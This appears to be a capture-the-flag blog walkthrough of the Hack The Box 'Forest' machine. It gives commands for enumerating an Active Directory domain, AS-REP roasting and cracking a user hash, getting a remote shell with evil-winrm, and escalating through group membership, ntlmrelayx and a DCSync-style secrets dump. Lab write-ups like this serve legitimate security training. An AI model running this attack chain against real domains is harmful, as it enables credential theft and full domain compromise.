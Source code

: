 ```yaml
---
layout: post
title:  Hack The Box - Forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/forest/forest.png)  
<p align="center"> Forest is a easy machine created by <a href="https://www.hackthebox.eu/home/users/profile/1190">egre55</a> & <a href="https://www.hackthebox.eu/home/users/profile/2984">mrb3n</a></p>  

# ENUM  
### <center>nmap</center>  
>nmap -sC -Pn -sV -T4 10.10.10.161  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

<center>Nmap gives me the domain htb.local</center>  
<p align="center">Now I need usernames to try use <a href="https://github.com/ifconfig-me/impacket">impacket</a></p><br>  
  
### <center>enum4linux</center>  
<p align="center"><a href="https://github.com/CiscoCXSecurity/enum4linux">enum4linux</a> 10.10.10.161</p><br>  
<center>enum4linux shows a list of users</center>  
# ![user](/assets/img/forest/forest1.png)  
  
# exploit  
  
<center>Now I can use impacket's GetNPUser.py</center>  
### <center>impacket</center>  
<center>./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass</center>  
<center>Impacket found the hash of svc-alfresco user</center>  
# ![hash](/assets/img/forest/forest15.png)  
<center>John will help me to crack it</center>  
<center>john -w=/usr/share/wordlists/rockyou.txt hash.as</center>  
# ![pass](/assets/img/forest/forest3.png)  
  
<p align="center"><a href="https://github.com/Hackplayers/evil-winrm">evil-winrm</a> to acess the machine</p><br>  
<center>./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco</center>  
# ![shell](/assets/img/forest/forest4.png)    
# Privilege Escalation  
### <center>bloodhound</center>  
<center>The hound</center>  
<center>./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all</center>  
# ![bloodHound](/assets/img/forest/forest5.png)  
<center>Just zip all the .json file and send to bloodhound</center>  
<p align="center"> svc-alfresco is member of <a href="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)">Account Operators</a></p>  
# ![group](/assets/img/forest/forest6.png)  

# ![exchange1](/assets/img/forest/forest7.png) 
<center>And exchange windows permissons group has WriteDacl</center> 
# ![exchange2](/assets/img/forest/forest8.png)  
# ![writDacl](/assets/img/forest/forest9.png)  

<center>If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack</center>  
### <center>impacket</center>  
<center>net group "Exchange Windows Permissions" svc-alfresco /add</center>  
# ![netGroup](/assets/img/forest/forest10.png)  
<center>to add svc-alfresco in the group<br>  
and impacket's ntlmrelayx.py<br>  
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco<br>  
Logged as svc-alfresco in localhost</center>  
# ![localhost](/assets/img/forest/forest11.png)  
<center>and..</center>  
# ![ntlmrelayx](/assets/img/forest/forest12.png)  
<center>Ready for secretsdump</center>  
# ![secretsDump](/assets/img/forest/forest13.png)  
<center>Evil again as admin</center>  
# ![evilAdmin](/assets/img/forest/forest14.png)  
